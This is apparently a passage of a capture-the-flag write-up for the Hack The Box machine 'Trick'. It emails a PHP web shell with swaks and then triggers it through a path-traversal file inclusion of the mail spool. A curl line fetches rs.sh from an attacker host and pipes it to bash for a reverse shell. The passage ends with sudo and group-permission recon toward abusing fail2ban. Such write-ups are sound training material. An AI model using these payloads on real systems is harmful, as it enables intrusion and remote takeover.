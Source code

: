 ### SMTP Foothold

```bash
swaks --server trick.htb \
      --to michael \
      --from meow \
      --header "Subject: Meow" --body '<?php system($_REQUEST["cmd"]); ?>' 
```

And mail is stored in `/var/mail/$user`
We can navigate there and we'll see our email, but nothing else. We have to include parameter `&cmd=id`
And once you see that you can easily get a shell by hosting it, or whatever payload you prefer.
```bash
curl 'http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//var/mail/michael&cmd=curl%20http://$ip:$port/rs.sh|bash'
```



## Foothold -> Escalation

```bash
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart

```

So we have fail2ban which we can restart and it runs as root.
We saw micahel is in the security group with id command. So we can see what useful things they have access to.
```bash
michael@trick:~$ find / -group security 2>/dev/null
/etc/fail2ban/action.d
```


```bash
ls /etc/fail2ban/action.d
```
```
abuseipdb.conf     dshield.conf                   firewallcmd-rich-rules.conf  iptables-ipset-proto4.conf           mail.conf               nftables-multiport.conf  sendmail-buffered.conf             sendmail-whois-matches.conf
apf.conf           dummy.conf                     helpers-common.conf          iptables-ipset-proto6-allports.conf  mail-whois-common.conf  nginx-block-map.conf     sendmail-common.conf               shorewall.conf
badips.conf        firewallcmd-allports.conf      hostsdeny.conf               iptables-ipset-proto6.conf           mail-whois.conf         npf.conf                 sendmail.conf                      shorewall-ipset-proto6.conf
badips.py          firewallcmd-common.conf        ipfilter.conf                iptables-multiport.conf              mail-whois-lines.conf   nsupdate.conf            sendmail-geoip-lines.conf          smtp.py
blocklist_de.conf  firewallcmd-ipset.conf         ipfw.conf                    iptables-multiport-log.conf          mynetwatchman.conf      osx-afctl.conf           sendmail-whois.conf                symbiosis-blacklist-allports.conf
bsd-ipfw.conf      firewallcmd-multiport.conf     iptables-allports.conf       iptables-new.conf                    netscaler.conf          osx-ipfw.conf            sendmail-whois-ipjailmatches.conf  ufw.conf
cloudflare.conf    firewallcmd-new.conf           iptables-common.conf         iptables-xt_recent-echo.conf         nftables-allports.conf  pf.conf                  sendmail-whois-ipmatches.conf      xarf-login-attack.conf
```